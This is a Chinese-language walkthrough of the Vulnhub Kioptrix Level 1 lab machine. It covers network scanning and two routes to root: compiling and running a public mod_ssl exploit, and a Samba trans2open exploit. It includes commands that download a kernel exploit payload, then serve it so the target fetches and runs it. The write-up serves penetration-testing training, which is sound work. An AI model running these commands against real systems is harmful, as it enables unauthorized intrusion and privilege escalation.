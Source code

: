 # Vulnhub Kioptix Level 1


# Vulnhub-kioptix-Level-1（#1）

### 基本信息

kali:192.168.110.10

靶机:192.168.110.12

### 一、信息收集

```
arp-scan -l
```

![](/vulnhub-kioptix-Level-1/01.JPG)

```
nmap -sV 192.168.110.12
```

`Apache/1.3.20、mod_ssl/2.8.4、OpenSSL/0.9.6b`

![](/vulnhub-kioptix-Level-1/02.JPG)

```
nikto -host http://192.168.110.12/
```

![](/vulnhub-kioptix-Level-1/03.JPG)

扫到有CVE-2002-0082

443端口使用了mod_ssl服务为2.8.4

### 二、漏洞利用

### 漏洞利用1

![](/vulnhub-kioptix-Level-1/04.JPG)

查询到有exp

![](/vulnhub-kioptix-Level-1/05.JPG)

编译下

```
gcc -o exp 47080.c -lcrypto
```

![](/vulnhub-kioptix-Level-1/06.JPG)

![](/vulnhub-kioptix-Level-1/07.JPG)

```
./exp 0x6b 192.168.110.12 443
```

![](/vulnhub-kioptix-Level-1/08.JPG)

这边是后续的exploit没有下载成功，直接在shell里面尝试从链接里面下载试下

```
curl -O https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
python3 -m http.server 8080
```

```
nano 47080.c
#修改http  改成本地地址
```

![](/vulnhub-kioptix-Level-1/09.JPG)

保存后重新编译运行

![](/vulnhub-kioptix-Level-1/10.JPG)

### 漏洞利用2

前面发现了139端口

用msf扫描一下

![](/vulnhub-kioptix-Level-1/11.JPG)

![](/vulnhub-kioptix-Level-1/12.JPG)

版本是2.2.1a

`searchsploit samba 2.2`找下有无可以利用的漏洞

![](/vulnhub-kioptix-Level-1/13.JPG)

`searchsploit -p 10.c` 寻找路径

![](/vulnhub-kioptix-Level-1/14.JPG)

`cp /usr/share/exploitdb/exploits/multiple/remote/10.c ./`

![](/vulnhub-kioptix-Level-1/15.JPG)

编译一下

![](/vulnhub-kioptix-Level-1/16.JPG)

`./samba -b 0 192.168.110.12`

![](/vulnhub-kioptix-Level-1/17.JPG)

已拿到root权限
